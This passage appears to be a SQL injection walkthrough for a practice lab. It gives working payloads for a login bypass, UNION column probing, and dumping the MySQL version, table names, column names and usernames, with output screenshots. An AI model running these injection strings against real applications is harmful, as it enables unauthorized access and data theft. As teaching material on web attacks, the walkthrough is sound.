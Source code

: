 We can check if **SQLI** is possible by using this query -  `admin' OR 1=1#` or `admin' OR 1=1-- -` and here is the output

![](https://i.imgur.com/MDvwaaB.png)

Since we don't know how many **columns** exists on this table we could use the `UNION` query to query for information we need

```
admin' union select null,null,null#
```

**_Where :_**

>`admin` is likely an attempt to target a user or role named "admin" in the database.
  `union` is used to combine the result of the injected query with the original query.
  `select null, null, null` is an attempt to retrieve three columns of data. The null values here may be placeholders, and an attacker would typically replace them with actual data or malicious code.
 `#` is used to comment out the rest of the query, effectively ignoring any text that follows it.


#### **Example**

![](https://i.imgur.com/NpwfYPk.png)

If we get a **No users found** related message then you should keep adding the `null,` statement, till we have something positive as shown above

### **Dumping MYSQL Version**

```
admin' union select null,null,version()#
```

we can just replace the third null with `version()` and should give us the version of MYSQL

![](https://i.imgur.com/vvi9x1D.png)



### **Dumping Table Names**

```
admin' union select null,null,table_name from information_schema.tables#
```



![](https://i.imgur.com/WPBQJ6b.png)



### **Dumping Columns Names**

```
admin' union select null,null,column_name from information_schema.columns#
```



![](https://i.imgur.com/vagSHjo.png)



### **Data Exfiltration**

```
admin' union select null,null,username from injection0x01#
```

Since we know the column and tables, we can now dump out a particular column from a table with the above 